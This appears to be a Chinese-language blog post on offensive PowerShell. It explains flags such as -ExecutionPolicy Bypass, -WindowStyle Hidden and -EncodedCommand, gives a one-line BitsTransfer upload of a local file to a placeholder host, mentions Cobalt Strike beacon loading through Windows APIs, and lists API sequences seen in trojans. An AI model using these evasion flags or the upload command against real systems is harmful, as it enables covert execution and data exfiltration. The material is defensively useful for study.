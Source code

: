 ![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NgibR4icY6JkR6ydAsRecfWy6kic5bIKkTUTTeEicXa9mlP7amr1wia2sItg/640?wx_fmt=png)

**-EXecutionPolicy Bypass**: 绕过 powershell 默认安全规定不能运行命令和文件

**-WindowStyle Hidden(-W Hidden)**: 隐藏窗口

**-Nonlnteractive(-Nonl)**: 非交互模式

**-noexit:** 执行但不退出 shell

**Get-FileHash:** 获取文件 hash

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NWWJpRJJufEOJaLFm7zLMWWdqz58N8c7XacKyPpQricia2XuExfoTlEWA/640?wx_fmt=png)

**-Import-Module：**将模块添加到当前会话。  

```
//如上传操作
Import-Module BitsTransfer
Start-BitsTransfer -Source c:\test.txt -Destination http://x.x.x.x/test.txt -transfertype upload
```

**-EncodedCommand(-enc):** 接受 base64 编码的字符串

**-set-alias:** 设置别名

powershell 定义函数方式:

```
function FuncName(args[])
{
code;
}
```

  

  

编辑器：

win10 自带的 ISE 就挺不错，自动补全功能也很好。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NSOHAQSauLiakgSAD32P3Jm7ZB3icvNx398M2TuGcadDgm2ic6GfiaicV5Qg/640?wx_fmt=png)

powershell-cs 上线：

**![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39N29YOCzm5jiatNjL2LzmEM99wdOyxCrWvyOdbeQRGyrKbObcdNvRCkWg/640?wx_fmt=png)**

也是调用了 virtualalloc 那些 windows api 创建而成。  

常用的 API 还是要记住的

在一些木马分析的时候有时候也会感到有些相似的地方，比如，call ds:DeleteFileA..........call ds:CreateFileA............call ds:WriteFile.............call ds:CreateThread

删原来文件，创建一个新 word，写，加载到新线程中。因为套路相似，调用的 API 也相似。

推荐查询网址：

https://docs.microsoft.com/zh-cn/windows/win32/apiindex/windows-api-list?redirectedfrom=MSDN
